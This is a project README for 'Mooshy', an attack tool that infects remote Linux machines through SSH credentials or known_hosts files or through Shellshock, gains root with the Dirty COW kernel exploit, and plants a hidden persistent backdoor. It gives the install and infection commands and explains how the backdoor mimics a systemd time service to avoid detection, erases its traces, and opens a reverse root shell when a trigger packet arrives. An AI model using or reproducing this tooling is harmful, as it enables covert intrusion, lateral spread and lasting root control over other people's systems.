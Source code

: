[![Build Status](https://travis-ci.com/rvolosatovs/mooshy.svg?token=Rr1zHeZEE84zs4P7sgSv&branch=master)](https://travis-ci.com/rvolosatovs/mooshy)

# Mooshy

[![asciicast](https://asciinema.org/a/zK5uZERZHIAw1TsNng2o8eDqX.png)](https://asciinema.org/a/zK5uZERZHIAw1TsNng2o8eDqX)

## Description
Mooshy is a tool that automates the infection and execution of arbitrary code on remote Linux systems. It has various modes of infection. One is by exploiting a web server vulnerable to Shellshock. Another way is by using SSH to login as a regular user. After code execution is gained, the Dirty COW exploit is used to gain root privileges. Using these privileges, a backdoor is installed for persistence.

## Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
    make
```

## Generation of the report:
```sh
    make report
```

## Usage:
```sh
    $ mooshy -help                                                       
    Usage of mooshy:
      -addr string
        	The lucky guy
      -moosh string
        	Path to moosh (default "./bin/moosh")
      -ssh
        	Use SSH for the infection
      -sshAgent string
        	Path to SSH agent socket (default "/run/user/1000/gnupg/S.gpg-agent.ssh")
      -sshKey string
        	Path to (passwordless) SSH private key (default "/home/rvolosatovs/.ssh/id_rsa")
      -sshKnown string
        	Path to SSH known_hosts file (default "/home/rvolosatovs/.ssh/known_hosts")
      -sshUser string
        	Username to connect as(e.g. for SSH) (default "averagejoe")
      -useSSHAgent
        	Whether or not use SSH agent
      -useSSHKey
        	Whether or not use (passwordless) SSH private key
      -useSSHKnown
        	Whether or not to try to infect all hosts in SSH known_hosts file
```

# Mechanism of action
The tool operates in 2 modes - infection and execution.

## Infection mode
```sh
   mooshy -ssh -useSSHAgent -sshUser averagejoe -addr 192.168.56.102 # Specific SSH host
   mooshy -ssh -useSSHAgent -useSSHKnown -sshKnown known_hosts -sshUser averagejoe # SSH known_hosts
```
- Connects to the victim machine(s) using either of:
    - SSH:
        - Connects to the `addr` specified and/or all hosts in `known_hosts` file, using either a running SSH agent(with `SSH_AUTH_SOCK` set in environment) or using a password-less private key, which provides access to the machine(s).
        - Copies the `moosh` binary to each victim using SFTP.
    - Shellshock:
        - Connects to the `addr`.
        - Downloads `moosh` binary in `/tmp` and executes it.
- Executes the `moosh` binary on the victim machine, which:
    - Exploits [Linux kernel vulnerability(CVE-2016-5195)](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) (PoC uses vanilla Ubuntu 16.04 LTS VM) to overwrite a SUID binary(defaults `/usr/bin/passwd`) by shellcode, which sets `/proc/sys/vm/dirty_writeback_centisecs` to `0` and `exec`s `/bin/bash` with `root` privileges(it's a SUID binary owned by `root`). Note, that setting `/proc/sys/vm/dirty_writeback_centisecs` to `0` is required to prevent kernel panic, which would otherwise occur shortly after the execution of exploit due to an invalid state reached, which is triggered by the exploit.
    - Using the "suid root shell" installs the backdoor on the system
    - Creates, enables and starts a `systemd-timesync` systemd service, which launches the backdoor service.
    - Restores the contents of the original binary in it's location and removes all temporary files.

## Execution mode
```sh
   mooshy -addr 192.168.56.102:22 # The port should be any open port
```
- Connects to the infected victim and returns a reverse `root` shell.

# Attack analysis

## Dirty CoW exploit
>  A race condition was found in the way Linux kernel's memory subsystem
>  handled breakage of the read only private mappings COW situation on
>  write access.
>
>  An unprivileged local user could use this flaw to gain
>  write access to otherwise read only memory mappings and thus increase
>  their privileges on the system. ([Source](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

## Shellshock
> A flaw was found in the way Bash evaluated certain specially crafted environment variables. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue. ([Source](https://access.redhat.com/security/cve/cve-2014-6271))

## Infection
Once root access is gained through the Dirty CoW exploit, the machine is infected with a persistent backdoor. The binary code for the backdoor is embedded in the `moosh` binary. It creates and enables a new systemd service in `/lib/systemd/system/systemd-timesync.service` and installs the binary as `/lib/sytemd/systemd-timesync`. This name was chosen for its similarity to the existing `systemd-timesyncd` service, to hopefully avoid detection from unsuspecting users. All traces of the exploit are then erased, leaving only the newly installed service. 

## Backdoor
The `systemd-timesync` service creates a raw socket that listens to TCP requests. The raw socket allows the backdoor to listen on all TCP ports with a single socket, while the TCP payload is still handled by the kernel so that normal service by the victim machine is unaffected. When a packet with a specific payload is received, it triggers the backdoor to open a reverse shell to the attacker's machine. The payload consists of a sentinel value, followed by the port number on which the attacker is listening for a reverse shell connection.

The backdoor then opens a new TCP connection to the source IP of the triggering packet, using the specified port. Since the backdoor is run as a systemd service, it has not tty attached. Instead, it uses the `script` executable, which is installed on linux by default, to create a pty and connect it to `/bin/bash`. This opens a fully interactive root shell on the victim's machine, whose input and output are then connected to the opened TCP connection. 

## Buffer overflow
A buffer overflow occurs when more data is put in a buffer than it can hold, leading to overwrite adjacent memory locations being overwritten. This problem can be abused to alter the return address and inject code on the stack.

To illustrate this concept, a vulnerable HTTP daemon (`hHTTPd`) is supplied as a proof of concept. It stores the HTTP request and reflects the path back to the client in the message body. However, if the user requests a path that is too long, it overflows the request buffer. This vulnerability is exploited to gain code execution. _At the moment, this is not implemented._
